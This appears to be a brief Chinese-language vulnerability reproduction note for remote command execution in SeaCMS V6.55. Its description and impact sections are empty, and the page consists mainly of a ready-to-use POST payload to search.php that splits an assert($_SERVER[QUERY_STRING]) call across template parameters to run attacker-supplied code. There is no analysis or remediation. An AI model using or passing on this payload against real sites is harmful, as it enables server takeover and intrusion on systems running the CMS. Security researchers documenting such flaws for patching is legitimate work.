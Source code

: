 # 海洋CMS seacms V6.55 命令执行

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

path:


```bash
http://url/search.php

POST:

searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*
```